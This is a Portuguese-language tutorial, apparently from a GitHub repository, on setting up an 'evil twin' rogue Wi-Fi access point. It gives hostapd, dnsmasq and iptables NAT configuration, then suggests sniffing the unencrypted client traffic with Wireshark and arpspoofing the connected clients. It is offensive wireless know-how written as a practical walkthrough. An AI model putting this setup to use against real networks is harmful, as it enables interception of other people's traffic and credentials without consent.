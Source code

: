 #### Tecnica EVIL TWIN

Primeiro é necessario instalar algumas ferramentas, hostapd que sera nosso servidor AP e dnsmasq sera nosso servidor DNS e nosso servidor DCHP, com o IPTABLES faremos o redirecionamento dos pacotes para nossa interface com acesso a internet
```
apt install hostapd dnsmasq iptables
```

Agora precisamos criar o arquivo de configuração do hostapd

```
nano /etc/hostapd/hostapd.conf
```
Vamos adicionar as seguintes configurações, claro que devemos adaptar ao nosso ambiente, como alterar o ssid para o nome especifico em questão, e a interface para sua placa de rede
```
interface=wlan0
driver=nl80211
ssid=MeuAP
hw_mode=g
channel=6
ieee80211n=1
wmm_enabled=1
macaddr_acl=0
auth_algs=1
ignore_broadcast_ssid=0
ctrl_interface=/var/run/hostapd
ctrl_interface_group=0
```
Agora vamos configurar o hostapd para usar nosso arquivo de configuração
```
nano /etc/default/hostapd
```
Adicionar a seguinte linha
```
DAEMON_CONF="/etc/hostapd/hostapd.conf"
```
Agora vamos configurar o dnsmasq para usar trabalhar com DHCP
```
nano /etc/dnsmasq.conf
```
Adicionar as seguintes configurações, lembrando de adaptar a interface de rede para sua interface em questão
```
interface=wlan0
dhcp-range=192.168.10.10,192.168.10.50,12h
dhcp-option=3,192.168.10.1
dhcp-option=6,192.168.10.1
server=8.8.8.8
log-queries
log-dhcp
```
Agora vamos definir os endereços estaticos para a interface do nosso AP
```
ip addr add 192.168.10.1/24 dev wlan0
```
Agora precisamos habilitar o redirecionamento de IP
```
sysctl -w net.ipv4.ip_forward=1
```
Agora vamos usar o IPTABLES para criar uma regra de NAT para compartilhar internet com nossa interface de rede conectada a rede (no meu caso minha interface cabeada)
```
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
Agora apenas precisamos iniciar o nosso hostapd e o dnsmasqd
```
systemctl start hostapd
systemctl start dnsmasq
```

verifique o status da placa, precisa estar no modo AP
```
iw dev wlx242fd0669b57 info
```
Caso nao esteja basta parar a interface, setar o modo e subir novamente
```
sudo ip link set wlx242fd0669b57 down
sudo iw dev wlx242fd0669b57 set type ap
sudo ip link set wlx242fd0669b57 up
```


Uma vez iniciado os serviços, o AP deve estar on e com acesso a internet.<br><br>
A rede não póssui criptografia, então basta subir uma placa de rede em modo monitoramento para analizar o trafego de rede gerado pelos clientes com wireshark
<br><br>
Tambem é possivel analizar os clientes conectados com o comando "arp" para realizar um arpspoofing




